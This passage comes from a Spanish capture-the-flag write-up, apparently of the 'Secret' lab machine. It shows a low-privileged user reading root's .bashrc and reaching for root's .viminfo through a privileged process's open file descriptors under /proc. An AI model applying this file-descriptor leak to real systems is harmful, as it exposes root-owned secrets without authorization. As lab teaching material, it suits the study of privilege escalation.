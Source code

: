 ```bash
dasith@secret:/proc/1706/fd$ ls -al
total 0
dr-x------ 2 dasith dasith  0 Mar  5 12:01 .
dr-xr-xr-x 9 dasith dasith  0 Mar  5 12:00 ..
lrwx------ 1 dasith dasith 64 Mar  5 12:03 0 -> /dev/pts/0
lrwx------ 1 dasith dasith 64 Mar  5 12:03 1 -> /dev/pts/0
lrwx------ 1 dasith dasith 64 Mar  5 12:03 2 -> /dev/pts/0
lr-x------ 1 dasith dasith 64 Mar  5 12:03 3 -> /root/.bashrc
```

Si tratamos de leer 3 podemos ver el contenido de .bashrc.

```bash
dasith@secret:/proc/1706/fd$ cat 3                                                                                                                                                           
# ~/.bashrc: executed by bash(1) for non-login shells.                                                                                                                                       
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)                                                                                                                   
# for examples                                                                                                                                                                               
# If not running interactively, don't do anything                                                                                                                                            
[ -z "$PS1" ] && return                                                                                                                                                                      
                                                                                 
# don't put duplicate lines in the history. See bash(1) for more options                                                                                                                     
# ... or force ignoredups and ignorespace                                                                                                                                                    
HISTCONTROL=ignoredups:ignorespace                                                                                                                                                           
                                                                                
# append to the history file, don't overwrite it                                                                                                                                             
shopt -s histappend                                                                                                                                                                          
                                                                                
# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)                                                                                                                        
HISTSIZE=1000                                                                                                                                                                                
HISTFILESIZE=2000    
[..SNIP..]
```

Veiamos que "otros" pueden leer el archivo .viminfo cabe destacar que este archivo actua como una cache. Puede tener información privilegiada. Vamos a tratar de leerlo como hemos hecho con el archivo anterior.

```bash
dasith@secret:/proc/1679/fd$ ls -la
total 0
dr-x------ 2 dasith dasith  0 Mar  5 11:55 .
dr-xr-xr-x 9 dasith dasith  0 Mar  5 11:55 ..
lrwx------ 1 dasith dasith 64 Mar  5 11:55 0 -> /dev/pts/0
lrwx------ 1 dasith dasith 64 Mar  5 11:55 1 -> /dev/pts/0
lrwx------ 1 dasith dasith 64 Mar  5 11:55 2 -> /dev/pts/0
lr-x------ 1 dasith dasith 64 Mar  5 11:55 3 -> /root/.viminfo
```
